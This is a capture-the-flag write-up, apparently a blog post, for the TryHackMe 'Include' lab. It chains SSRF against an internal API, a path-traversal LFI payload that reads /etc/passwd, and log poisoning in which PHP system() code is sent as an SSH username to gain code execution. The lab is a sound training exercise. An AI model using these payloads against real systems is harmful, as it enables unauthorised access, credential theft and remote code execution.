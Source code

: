 ```yaml
---
title: THM - Include
author: Throupy
date: 2024-06-09 00:00:00 +0000
categories: [CTF]
tags: [CTF, Web]
---
```


A writeup for the TryHackMe room called `Include`.

The TryHackMe room "Include" demonstrates exploiting a web application through Local File Inclusion (LFI) vulnerabilities. By performing thorough enumeration and leveraging SSRF and LFI techniques, sensitive information was extracted, leading to credential discovery and eventually achieving remote code execution via log poisoning.

The IP for my machine was `10.10.134.223`, first add it to hosts file.
```bash
echo "10.10.134.223 include.thm" | sudo tee -a /etc/hosts
```

## Enumeration
Starting with an `nmap` scan using default scripts (`-sC`), service detection (`-sV`), and scanning all ports (`-p-`). `-oA` means output all formats, this is just so I can refer back to it easily
```
nmap -sC -sV -oA include_scan -p- include.thm
```

We can see a number of open ports:
```
22/tcp    open  ssh      OpenSSH 8.2p1 Ubuntu 4ubuntu0.11 (Ubuntu Linux; protocol 2.0)
25/tcp    open  smtp     Postfix smtpd
110/tcp   open  pop3     Dovecot pop3d
143/tcp   open  imap     Dovecot imapd (Ubuntu)
993/tcp   open  ssl/imap Dovecot imapd (Ubuntu)
995/tcp   open  ssl/pop3 Dovecot pop3d
4000/tcp  open  http     Node.js (Express middleware)
50000/tcp open  http     Apache httpd 2.4.41 ((Ubuntu))
```
SSH is very rarely the initial access point, and the mail ports (25, 110, 143, 993, 955) require more effort to query. Let's first check out the web servers

## HTTP servers on 50000 and 4000
The web app on port 50000 just gives us a "restricted portal" message, requiring a login. We have no credentials at the moment so this is not helpful.

Web app on port 4000 just shows a message saying "log in with guest/guest, so let's do it.
![Login](/assets/img/include-thm-4000-site.png)

After logging in, we see a home page
![Home](/assets/img/include-thm-4000-home.png)

Let's try viewing our profile
![Profile](/assets/img/include-thm-4000-profile.png)

### SSRF
There is some funny looking information in the details section, almost as if we are seeing the raw key / value pairs. Let's try using the activity recommendation functionality to overwrite some of these variables e.g. setting `isAdmin` to `true`
![IsAdmin](/assets/img/include-thm-4000-isadmin-true.png)

After submitting this, the value updates in our details section, and we can see an API item in the navigation bar, let's navigate to this.

We can see the following:
![API](/assets/img/include-thm-4000-api-dashboard.png)

### API - Initial Credentials
It looks like we can get some credentials for the `SysMon` application on port 50000. Let's hit the `getAllAdmins101099991` endpoint on the API. The API is hosted locally, meaning we can only hit it from within the application. Notice that on the navigation bar, we have a "update banner image" functionality, where we can specify a URL. 
![Banner](/assets/img/include-thm-4000-update-banner.png)

Let's specify the endpoint's URL (`http://127.0.0.1:5000/getAllAdmins101099991`)

This is what we get back:
```
data:application/json; charset=utf-8;base64,eyJSZXZpZXdBcHBVc2VybmFtZSI6ImFkbWluIiwiUmV2aWV3QXBwUGFzc3dvcmQiOiJhZG1pbkAhISEiLCJTeXNNb25BcHBVc2VybmFtZSI6ImFkbWluaXN0cmF0b3IiLCJTeXNNb25BcHBQYXNzd29yZCI6IlMkOSRxazZkIyoqTFFVIn0=
```

Note that it is base64 encoded, we can decode it:
```zsh
echo "eyJSZXZpZXdBcHBVc2VybmFtZSI6ImFkbWluIiwiUmV2aWV3QXBwUGFzc3dvcmQiOiJhZG1pbkAhISEiLCJTeXNNb25BcHBVc2VybmFtZSI6ImFkbWluaXN0cmF0b3IiLCJTeXNNb25BcHBQYXNzd29yZCI6IlMkOSRxazZkIyoqTFFVIn0=" | base64 -d

{
    "ReviewAppUsername":"admin",
    "ReviewAppPassword":"admin@!!!",
    "SysMonAppUsername":"administrator",
    "SysMonAppPassword":"S$9$qk6d#**LQU"
}
```

### SysMon application
We got `SysMon` application credentials, so let's log into the application.
On the home page we can get the first flag
![50000Home](/assets/img/include-thm-50000-home.png)

After reviewing the source code of the website, we can notice that the `src` attribute of the `img` element is `src="profile.php?img=profile.png"`. Let's navigate to this URL and capture the request using the burp suite proxy. Send the request to repeater and let's try some directory traversal.

### LFI
Trying common payloads such as `../../../../etc/passwd` did not yield any results, let's use intruder to use an LFI payload wordlist such as [this](https://github.com/carlospolop/Auto_Wordlists/blob/main/wordlists/file_inclusion_linux.txt) one 

Eventually, we can find a payload which will give us `/etc/passwd`:
```
http://include.thm:50000/profile.php?img=......///......///......///......///......///etc/passwd
[SNIP]
joshua:x:1002:1002:,,,:/home/joshua:/bin/bash
charles:x:1003:1003:,,,:/home/charles:/bin/bash
```
Revealing two users, joshua and charles.

### Trying to steal `id_rsa`
I tried stealing `id_rsa` for both users, but did not get anywhere. Then I considered the mail ports which were open, perhaps we can perform some log file poisoning to get RCE via our LFI vulnerability. Let's check for some common log files using the same LFI format from before (`......///......///......///......///......///`).

### Log Poisoning
I couldn't manage to get the apache `access.log` for some reason, but I could get /var/log/auth.log, which shows SSH authentication attempts.

Let's try and embed our PHP payload, which will list the current directory, into the SSH username.
```zsh
ssh '<?php system("ls"); ?>'@include.thm
```

If this fails, use hydra:
```zsh
hydra -u include.thm -p 'test' ssh -l '<?php system("ls"); ?>' include.thm
```

Now, when we read the contents of `auth.log` using our LFI:
```zsh
505eb0fb8a9f32853b4d955e1f9123ea.txt
api.php
auth.php
dashboard.php
index.php
[SNIP]
```

And with that, we get the file name, then we can modify our payload to cat the file:
```zsh
ssh '<?php system("cat 505eb0fb8a9f32853b4d955e1f9123ea.txt"); ?>'@include.thm
```

And we get the final flag.
